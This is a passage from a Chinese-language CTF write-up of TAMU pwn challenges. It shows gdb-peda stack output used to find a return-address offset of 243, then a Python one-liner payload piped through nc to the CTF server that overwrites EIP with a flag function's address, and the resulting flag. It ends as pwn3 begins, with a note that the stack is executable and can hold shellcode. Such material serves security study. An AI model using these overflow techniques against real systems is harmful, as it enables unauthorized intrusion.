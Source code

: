 ```
0004| 0xbffff294 ("%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0008| 0xbffff298 ("GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0012| 0xbffff29c ("A%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0016| 0xbffff2a0 ("%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0020| 0xbffff2a4 ("dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0024| 0xbffff2a8 ("A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0028| 0xbffff2ac ("%eA%4A%JA%fA%5A%KA%gA%6A%")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x46254130 in ?? ()
gdb-peda$ pattern offset $eip
1176846640 found at offset: 243
```
flag函数的地址：0x0804854b，小端形式书写即为：\x4b\x85\x04\x08
如上可以知道其偏移量为243；编写payload为：python -c 'print("A"*243+"\x4b\x85\x04\x08")' | nc pwn.ctf.tamu.edu 4322

运行脚本

<img src="/images/posts/TAMU pwn/1519643247212.png" height="300" width="600"> 

flag：gigem{3ch035_0f_7h3_p4s7}

#### pwn3
首先检查启用了哪些安全机制：

<img src="/images/posts/TAMU pwn/1519643432477.png" height="300" width="600"> 

这意味着堆栈是可执行的，我们可以在堆栈上存储和执行一个shellcode。
